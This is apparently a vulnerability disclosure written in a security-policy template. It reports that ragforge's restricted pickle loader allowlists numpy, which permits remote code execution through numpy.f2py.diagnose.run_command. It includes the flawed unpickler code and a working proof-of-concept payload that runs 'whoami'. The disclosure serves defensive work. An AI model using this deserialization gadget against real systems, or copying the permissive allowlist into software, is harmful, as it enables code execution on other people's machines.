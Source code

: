 # Security Policy

## Supported Versions

Use this section to tell people about which versions of your project are
currently being supported with security updates.

| Version | Supported          |
| ------- | ------------------ |
| <=0.7.0   | :white_check_mark: |

## Reporting a Vulnerability

### Branch name

main

### Actual behavior

The restricted_loads function at [api/utils/__init__.py#L215](https://github.com/infiniflow/ragforge/blob/main/api/utils/__init__.py#L215) is still vulnerable leading via code execution.
The main reason is that numpy module has a numpy.f2py.diagnose.run_command function directly execute commands, but the restricted_loads function allows users import functions in module numpy.


### Steps to reproduce


**ragforge_patch.py**

```py
import builtins
import io
import pickle

safe_module = {
    'numpy',
    'rag_flow'
}


class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        import importlib
        if module.split('.')[0] in safe_module:
            _module = importlib.import_module(module)
            return getattr(_module, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))


def restricted_loads(src):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(src)).load()
```
Then, **PoC.py**
```py
import pickle
from ragforge_patch import restricted_loads
class Exploit:
     def __reduce__(self):
         import numpy.f2py.diagnose
         return numpy.f2py.diagnose.run_command, ('whoami', )

Payload=pickle.dumps(Exploit())
restricted_loads(Payload)
```
**Result**
![image](https://github.com/infiniflow/ragforge/assets/85293841/8e5ed255-2e84-466c-bce4-776f7e4401e8)


### Additional information

#### How to prevent?
Strictly filter the module and name before calling with getattr function.
